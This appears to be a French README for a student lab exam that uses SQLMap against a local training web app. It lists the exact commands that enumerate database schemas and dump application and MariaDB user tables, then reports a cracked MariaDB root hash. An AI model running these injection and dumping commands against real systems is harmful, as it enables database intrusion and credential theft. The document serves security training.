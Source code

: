# Projet : Exploitation SQL Injection avec SQLMap

## Description

Ce projet utilise l'outil **SQLMap** pour identifier et exploiter des vulnérabilités d'injection SQL sur une application web locale. L'objectif est de récupérer des informations critiques depuis la base de données, en particulier sur les utilisateurs et les privilèges, et de les exporter en fichiers `.csv`.

### Objectifs spécifiques de l'examen

1. Récupérer le schéma de la base de données.
2. Extraire la liste des utilisateurs de l'application.
3. Extraire la liste des utilisateurs de la base de données MariaDB.
4. Identifier et décrypter le mot de passe root de MariaDB via attaque par force brute.
5. Récupérer le mot de passe administrateur de l'application.

---

## Structure des fichiers générés

Les fichiers `.csv` et `.txt` suivants contiennent les données récupérées :

- **Schéma de la base de données :**
  - [Base de données `sqlitraining` - Schéma](output/localhost/dump/sqlitraining-schema.csv)
  - [Base de données `information_schema` - Tables](output/localhost/dump/information_schema-tables.csv)
  - [Base de données `sys` - Tables](output/localhost/dump/sys-tables.csv)
  - [Base de données `mysql` - Tables](output/localhost/dump/mysql-tables.csv)

- **Utilisateurs de l'application :**
  - [Liste des utilisateurs de l'application](output/localhost/dump/sqlitraining-users.csv)

- **Utilisateurs de MariaDB :**
  - [Liste des utilisateurs de MariaDB](output/localhost/dump/mysql-users.csv)

- **Mot de passe root de MariaDB :**
  - [Mot de passe root de MariaDB (force brute)](output/localhost/dump/root-password.txt)

- **Mot de passe administrateur de l'application :**
  - [Mot de passe administrateur de l'application](output/localhost/dump/admin-password.txt)

---

## Commandes SQLMap Utilisées

Les commandes SQLMap suivantes ont été exécutées pour atteindre les objectifs :

### 1. Extraction du Schéma de la Base de Données

- **Commande :**
  ```bash
  sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining --tables --batch
  ```

- **Détails des tables dans `information_schema` :**
  ```bash
  sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D information_schema --tables --batch
  ```

### 2. Récupération des Utilisateurs de l'Application

- **Commande :**
  ```bash
  sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining -T users --dump --batch --dump-format=CSV
  ```

### 3. Récupération des Utilisateurs de MariaDB

- **Commande :**
  ```bash
  sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D mysql -T user --dump --batch --dump-format=CSV
  ```

### 4. Extraction du Mot de Passe root de MariaDB

- **Commande :**
  ```bash
  sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D mysql -T user -C User,Host,authentication_string --dump --where="User='root'" --batch
  ```

  - **Détails :**
    Le mot de passe `81F5E21E35407D884A6CD4A731AEBFB6AF209E1B` est en MySQL4.1+. Après décryptage sur **CrackStation**, le mot de passe root est **root**.

### 5. Extraction du Mot de Passe Administrateur de l'Application

- **Commande :**
  ```bash
  sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining -T users --dump --batch
  ```

---

### Notes

- Tous les fichiers extraits en format `.csv` et `.txt` se trouvent dans le dossier : `/home/nyx/.local/share/sqlmap/output/localhost/dump/`
- L'utilisation de **SQLMap** pour des attaques sans consentement préalable est illégale. Ce projet est uniquement destiné à l'apprentissage dans un environnement contrôlé.

